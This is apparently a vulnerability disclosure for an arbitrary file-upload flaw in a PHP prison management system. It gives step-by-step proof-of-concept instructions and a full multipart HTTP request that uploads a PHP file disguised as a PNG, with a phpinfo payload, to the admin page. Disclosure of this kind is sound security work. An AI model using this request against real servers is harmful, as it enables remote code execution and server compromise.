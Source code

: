 # Prison Management System Using PHP has arbitrary file upload vulnerability

BUG_Author:

AoBo Li

Affected version:

Prison Management System Using PHP V1.0

Vendor:

Fast5

Software:

https://www.sourcecodester.com/sql/17287/prison-management-system.html

Vulnerability File:

/Employee/edit-photo.php

/Admin/add-admin.php



Description:



**1. Vulnerability Description**

The application allows authenticated users to upload files to the server. However, the file upload mechanism does not properly validate the file types being uploaded. As a result, it is possible to upload executable files, which can then be executed on the server.

**2. Proof of Concept (PoC)**

The following steps demonstrate how to exploit the arbitrary file upload vulnerability:

1. **Log in as admin or user,if log in as admin goto add-admin.php, if log in as user goto edit-photo.php.they are same.**
2. **Navigate to the file upload feature.**
3. **Upload a malicious file with a disguised extension (e.g., 1.jpg).**
4. **Rename it to a malicious extension file (e.g., 1.php).**
5. **The application saves the file on the server without proper validation.**
6. **Access the uploaded file via a direct URL and execute it.**

![image-20240925204658976](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925204658976.png)

The data packet is as follows

```
POST /prison/Admin/add-admin.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------356316614838182701192715677466
Content-Length: 828
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/prison/Admin/add-admin.php
Cookie: PHPSESSID=jrvn8lh2tgi6mdfm6qlpuastm1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtusername"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtfullname"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtpassword"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtphone"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="avatar"; filename="1.php"
Content-Type: image/png
<?php
phpinfo()>
?>
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="btncreate"


-----------------------------356316614838182701192715677466--

```

![image-20240925205346343](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925205346343.png)

![image-20240925210016665](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925210016665.png)

![image-20240925205632083](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925205632083.png)



**3. Impact**



The impact of this vulnerability can be severe. An attacker can upload and execute arbitrary code on the server, leading to:

- Unauthorized access to the server.
- Data leakage or manipulation.
- Server compromise and potential lateral movement within the network.